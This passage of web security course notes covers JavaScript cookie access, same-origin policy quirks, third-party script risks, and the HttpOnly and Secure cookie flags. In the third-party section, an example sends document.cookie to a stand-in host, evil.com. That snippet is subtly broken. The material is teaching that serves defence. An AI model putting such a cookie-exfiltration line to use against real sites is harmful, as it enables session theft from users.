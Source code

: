 #### Javascript cookie access

* Developers can additionally manipulate in-scope cookies through Javascript by modifying values in `document.cookie`:
    ```js
    document.cookie = "name=aditya";
    function alertCookie() {
        alert(document.cookie);
    }
    ```
    ```html
    <button onclick="alertCookie()">Show Cookies</button>
    ```
* This leads to a SOP policy collision. On `cs.stanford.edu/zakir`, run the following code, which will actually show `dabo`'s cookies on `zakir`'s page:
    ```js
    const iframe = document.createElement("iframe");
    iframe.src = "https://cs.stanford.edu/dabo";
    document.body.appendChild(iframe);
    alert(iframe.contentWindow.document.cookie);
    ```

#### Third-party cookie access

* If bank inclues Google Analytics Javascript (from `google.com`), it can access bank's auth. cookie, since Javascript always runs with permissions of the window
    ```js
    const img = document.createElement("image");
    img.src = "https://evil.com/?cookies=" + document.cookie;
    document.body.appendChild(/notes/images/cs155);
    ```
* To prevent: HttpOnly Cookies - setting to prevent cookies from being accessed by `document.cookie` API
    - Never sent by browser because `(google.com, /)` does not match `(bank.com, /)`
    - Cannot be extracted by Google Javascript that runs on `bank.com`
    ```http
    Set-Cookie: id=a3fWa; Expires=Thu, 21 Apr 2022 16:20:00 GMT; HttpOnly
    ```
    - This is OK if everything is done over TLS, so network attacker cannot see traffic
    - However, if attacker tricks user into visiting `http://bank.com`, since there is no scheme in Cookie SOP, attacker can see the cookie
* Secure Cookies: only send to server with an encrypted request over HTTPS protocol
    ```http
    Set-Cookie: id=a3fWa; Expires=Thu, 21 Apr 2022 16:20:00 GMT; Secure
    ```